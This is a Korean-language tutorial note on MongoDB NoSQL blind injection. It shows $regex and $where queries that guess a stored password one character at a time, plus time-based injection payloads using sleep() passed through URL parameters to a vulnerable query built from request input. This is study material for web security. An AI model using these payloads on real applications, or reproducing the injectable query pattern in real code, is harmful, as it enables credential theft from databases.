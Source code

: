 ```js
});
const server = app.listen(80, function(){
    console.log('app.listen');
});
```

=> **Line 11~14** : 쿼리의 내용이 `{'uid': input, 'upw': input}` 으로 구성

=> ![image-20210721212406522](C:\Users\yttn0\AppData\Roaming\Typora\typora-user-images\image-20210721212406522.png)

### Blind Injection

​	: **데이터베이스 조회 후 결과를 직접적으로 확인할 수 없는 경우 사용될 수 있는 공격 기법**

 * **원리:**

   DBMS의 함수 또는 연산 과정 등을 이용해 **데이터베이스 내에 존재하는 데이터와 사용자 입력을 비교**하며, 특정한 조건 발생 시 **특별한 응답을 발생**시켜 해당 비교에 대한 검증을 수행

- ### **$regex**

  **정규식**을 사용해 한글자 씩 비교하면서 Blind SQL Injection

  ```js
  > db.user.find({upw: {$regex: "^a"}})
  > db.user.find({upw: {$regex: "^b"}})
  > db.user.find({upw: {$regex: "^c"}})
  ...
  > db.user.find({upw: {$regex: "^g"}})
  { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
  ```

  

  ### **$where**

  **-> field 안에서 사용할 수 없음**

  `$where` 연산자를 사용할 수 있거나, `$where`연산자의 데이터로 입력 값을 추가할 수 있다면 아래와 같이 데이터를 추출 가능

  ```js
  > db.user.find({$where: "this.upw.substring(0,1)=='a'"})
  > db.user.find({$where: "this.upw.substring(0,1)=='b'"})
  > db.user.find({$where: "this.upw.substring(0,1)=='c'"})
  ...
  > db.user.find({$where: "this.upw.substring(0,1)=='g'"})
  { "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
  ```

  - `$where` Time Based

  MongoDB의 **sleep함수**를 통해 시간 지연을 발생시킬 수 있습니다.

  ```js
  db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
  /*
  /?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
  /?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
  /?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
  ...
  /?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
  => 시간 지연 발생.
  ```
